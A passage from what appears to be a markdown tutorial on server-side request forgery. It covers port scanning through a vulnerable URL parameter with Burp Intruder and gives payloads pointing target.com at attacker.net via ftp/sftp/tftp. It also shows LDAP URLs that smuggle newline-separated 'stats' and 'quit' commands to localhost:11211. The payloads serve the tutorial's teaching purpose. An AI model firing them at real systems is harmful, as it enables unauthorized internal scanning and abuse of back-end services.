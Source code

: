 2.Send the Request to Intruder and select the port location

![enter image description here](https://raw.githubusercontent.com/ShubhamDubeyy/Route-To-Toor/gh-pages/s2.png)

3.Select the number list and give the port number to be scanned.

![enter image description here](https://raw.githubusercontent.com/ShubhamDubeyy/Route-To-Toor/gh-pages/s3.png)

4.We can sort the attack by length or we can check the length of response received and completed for BlindCheck.
  
![enter image description here](https://raw.githubusercontent.com/ShubhamDubeyy/Route-To-Toor/gh-pages/s4.png)
   
For file transfer protocols:  

`https://target.com/page?url=ftp://attacker.net:11211/  
https://target.com/page?url=sftp://attacker.net:11111/  
https://target.com/page?url=tftp://attacker.net:123456/TESTUDP`

![enter image description here](https://raw.githubusercontent.com/ShubhamDubeyy/Route-To-Toor/gh-pages/url.png)

![enter image description here](https://raw.githubusercontent.com/ShubhamDubeyy/Route-To-Toor/gh-pages/protocols.png)

### **Post Exploitation Methodology We Should Follow**
- LDAP

- GOPHER
- Cross-Site Port Attack (XSPA)


- **LDAP** : LDAP (Lightweight Directory Access Protocol) is an open and cross platform protocol used for directory services authentication.
LDAP provides the communication language that applications use to communicate with other directory services servers. Directory services store the users, passwords, and computer accounts, and share that information with other entities on the network

***Abusing LDAP***  
  
`https://target.com/page?url=ldap://127.0.0.1/%0astats%0aquit  
https://target.com/page?url=ldap://localhost:11211/%0astats%0aquit`  
  
`Makes request like:  
stats  
quit`


- **GOPHER** : The **Gopher** protocol [/ˈɡoʊfər/](https://en.wikipedia.org/wiki/Help:IPA/English "Help:IPA/English") is a [communications protocol](https://en.wikipedia.org/wiki/Communications_protocol "Communications protocol") designed for distributing, searching, and retrieving documents in [Internet Protocol](https://en.wikipedia.org/wiki/Internet_Protocol "Internet Protocol") networks. The design of the Gopher protocol and user interface is menu-driven, and presented an alternative to the [World Wide Web](https://en.wikipedia.org/wiki/World_Wide_Web "World Wide Web") in [its early stages](https://en.wikipedia.org/wiki/History_of_the_World_Wide_Web "History of the World Wide Web"), but ultimately fell into disfavor, yielding to the [HTTP](https://en.wikipedia.org/wiki/Hypertext_Transfer_Protocol "Hypertext Transfer Protocol"). The Gopher ecosystem is often regarded as the effective predecessor of the World Wide Web.[[1]](https://en.wikipedia.org/wiki/Gopher_(protocol)#cite_note-1)
